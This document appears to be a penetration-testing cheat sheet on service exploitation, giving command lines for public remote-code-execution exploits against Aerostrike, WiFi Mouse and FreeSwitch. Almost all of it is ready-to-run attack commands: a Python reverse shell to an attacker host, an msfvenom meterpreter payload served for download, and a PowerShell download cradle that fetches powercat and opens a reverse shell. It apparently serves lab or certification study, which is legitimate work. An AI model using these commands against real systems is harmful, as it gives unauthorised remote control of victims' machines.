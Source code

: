 # 03 - Service Exploitation

Index
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 49067 RCE and Reverse Shell: Aerostrike](#ID-49067-RCE-Aerostrike)
    - [ID 49601 RCE and Reverse Shell: WiFi Mouse](#ID-49601-RCE-WiFi-Mouse)
    - [ID 47799 RCE and Reverse Shell: FreeSwitch](#ID-47799-RCE-FreeSwitch)

## Example: reverse shell
### ID 49067 RCE Aerostrike
Aerostrike RCE:
``` bash
python 49067.py --ahost 192.168.1.1 -aport 3000 --cmd "id"
```
Python Reverse Shell example:
``` bash
## require nc listener: nc -nvlp 443
python 49067.py --ahost 192.168.1.1 --cmd "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"$KALI\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"
```

### ID 49601 RCE WiFi Mouse
WiFi Mouse Reverse Shell - tcp\1978 (???):
``` bash
## create a payload
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$KALI LPORT=443 -f exe > payload.exe
## require multi/handler and HTTP server (port 8080 in my example) to download the payload
python2.7 49601.py 192.168.1.1 $KALI:8080 met.exe
```

### ID 47799 RCE FreeSwitch
Service available via TCP port (ex: 8021)
``` bash
## windows reverse shell
python3 47799.txt 192.168.1.1 "powershell IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI/powercat.ps1');powercat -c $KALI -p 443 -e powershell"
```
